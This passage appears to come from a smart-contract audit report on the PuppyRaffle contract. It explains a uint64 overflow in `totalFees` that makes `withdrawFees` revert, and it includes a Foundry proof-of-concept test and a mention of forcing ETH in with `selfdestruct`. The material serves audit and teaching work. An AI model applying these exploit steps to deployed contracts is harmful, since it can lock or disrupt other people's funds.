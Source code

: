 1. We conclude a raffle of 4 players
2. We then have 89 players enter a new raffle, and conclude the raffle
3. `totalFees` will be 
    
    ```solidity
    totalFees = totalFees + uint64(fee);
    // 800000000000000000 + 17800000000000000000
    totalFees = 153255926290448384 // and this overflows
    ```
    
4. You will not be able to withdraw, due to the line in `PuppyRaffle::withdrawFees` :

```solidity
require(
    address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!"
);
```

Althought. you could use `selfdestruct` to send ETH to this contract in order for the values to match and withdraw the fees, this is clearly not the intended design of the protocol. At some point, there will be to much balance in the contract that the above will be impossible to hit.

### Proof of Code:

- Code
    
    Add the following test to `PuppyRaffleTest.t.sol` :
    
    ```solidity
    function testTotalFeesOverflow() public playersEntered {
        vm.warp(
            puppyRaffle.raffleStartTime() + puppyRaffle.raffleDuration() + 1
        );
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 startingTotalFees = puppyRaffle.totalFees();
    
        uint256 numberOfPlayer = 89;
        address[] memory players = new address[](numberOfPlayer);
        for (uint256 i = 0; i < numberOfPlayer; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * numberOfPlayer}(players);
        vm.warp(
            puppyRaffle.raffleStartTime() + puppyRaffle.raffleDuration() + 1
        );
        vm.roll(block.number + 1);
        puppyRaffle.selectWinner();
        uint256 endingTotalFees = puppyRaffle.totalFees();
    
        console.log("Starting Total fees: %s", startingTotalFees);
        console.log("Ending Total fees: %s", endingTotalFees);
        assert(endingTotalFees < startingTotalFees);
    
        vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
    }
    ```
    